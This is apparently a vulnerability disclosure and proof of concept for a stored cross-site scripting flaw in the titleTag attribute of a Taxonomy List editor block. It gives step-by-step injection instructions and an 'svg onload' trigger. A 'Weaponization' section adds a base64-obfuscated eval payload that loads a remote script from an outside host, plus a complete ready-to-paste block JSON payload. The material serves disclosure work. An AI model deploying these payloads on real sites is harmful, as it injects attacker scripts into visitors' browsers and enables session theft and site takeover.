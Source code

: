 ## Vulnerability

The titleTag is vulnerable to XSS in the Taxonomy List block, they did not properly filter it as an attribute, but rather html instead, we can append an entire attribute to the class node.

Firstly, we will want to add a taxonomy list, make a new post, and add the taxonomy block.

![Screenshot1](img1.png)

![Screenshot2](img2.png)

Now click on code editor.

![Screenshot3](img3.png)

Append the titleTag to the end of taxonomy-list block. The following can be added to trigger XSS:

```
"titleTag":"svg onload=alert(1)"
```

![Screenshot4](img4.png)

Now save and publish the page, and then go ahead and view it.

![Screenshot5](img5.png)

### Weaponization

Below I will demonstrate how to load a remote script with this vulnerability.

> Un-base 64'd script include
```
echo 'var s = document.createElement("script"); s.src = "https://script.com"; document.body.appendChild(s);' | base64
```

> Base64
```
dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK
```


> Malicious Payload
```
svg onload=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))
```

> Full Payload
```
{"overallBorderTopWidth":1,"overallBorderLeftWidth":1,"overallBorderRightWidth":1,"overallBorderBottomWidth":1,"overallBorderTopLeftRadius":3,"overallBorderTopRightRadius":3,"overallBorderBottomLeftRadius":3,"overallBorderBottomRightRadius":3,"overallBorderStyle":"solid","overallBorderColor":"#E0E0E0","overallBorderHColor":"#E0E0E0","block_id":"cfa0112c","titleTag":"svg onload=javascript:eval(atob(`dmFyIHMgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsgcy5zcmMgPSAiaHR0cHM6Ly9zY3JpcHQuY29tIjsgZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzKTsK`))"}
```